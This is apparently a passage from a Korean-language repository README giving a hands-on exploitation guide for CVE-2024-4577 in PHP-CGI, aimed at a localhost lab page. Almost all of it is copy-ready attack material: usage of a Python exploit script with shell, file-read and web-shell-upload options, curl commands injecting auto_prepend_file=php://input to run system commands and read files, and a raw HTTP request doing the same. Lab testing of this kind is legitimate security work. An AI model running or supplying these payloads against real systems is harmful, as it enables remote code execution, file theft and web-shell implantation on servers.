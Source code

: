 ### 방법 1: Python Exploit Script 사용

```bash
# 의존성 설치
pip install requests colorama

# 취약점 확인
python exploit_cve_2024_4577.py -t http://localhost/1x_inv/vulnerable_cgi.php --check

# 단일 명령 실행
python exploit_cve_2024_4577.py -t http://localhost/1x_inv/vulnerable_cgi.php -c "system('whoami');"

# 대화형 쉘
python exploit_cve_2024_4577.py -t http://localhost/1x_inv/vulnerable_cgi.php --shell

# 파일 읽기
python exploit_cve_2024_4577.py -t http://localhost/1x_inv/vulnerable_cgi.php --read "C:\\Windows\\System32\\drivers\\etc\\hosts"

# 웹쉘 업로드
python exploit_cve_2024_4577.py -t http://localhost/1x_inv/vulnerable_cgi.php --upload
```

### 방법 2: cURL 사용 (수동)

#### 테스트 1: phpinfo() 실행
```bash
curl -X POST "http://localhost/1x_inv/vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php phpinfo(); ?>"
```

#### 테스트 2: 시스템 명령 실행
```bash
curl -X POST "http://localhost/1x_inv/vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); ?>"
```

#### 테스트 3: 파일 시스템 접근
```bash
curl -X POST "http://localhost/1x_inv/vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php echo file_get_contents('C:\\\\Windows\\\\System32\\\\drivers\\\\etc\\\\hosts'); ?>"
```

### 방법 3: Burp Suite / OWASP ZAP

```http
POST /1x_inv/vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

<?php system('ipconfig'); ?>
```
